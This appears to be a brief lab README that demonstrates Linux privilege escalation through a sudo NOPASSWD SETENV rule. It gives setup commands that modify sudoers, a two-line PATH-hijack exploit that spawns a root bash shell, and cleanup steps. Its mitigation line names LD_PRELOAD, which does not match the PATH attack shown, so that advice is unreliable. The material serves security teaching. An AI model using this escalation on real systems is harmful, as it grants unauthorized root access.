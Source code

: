 # Setup

```sh
# root
cp /etc/sudoers /etc/sudoers.bak
adduser attacker
echo "attacker ALL=(ALL) NOPASSWD:SETENV: /home/attacker/script.sh" >> /etc/sudoers
echo 'ls -la' > /home/attacker/script.sh
chmod +x /home/attacker/script.sh
```

# Exploit

```bash
echo '/bin/bash' > /tmp/ls
sudo PATH=/tmp/:$PATH /home/attacker/script.sh
```

# Mitigate

```bash
# Remove env_keep += LD_PRELOAD
```

# Clean Up

```bash
deluser attacker --remove-home
cp /etc/sudoers.bak /etc/sudoers
```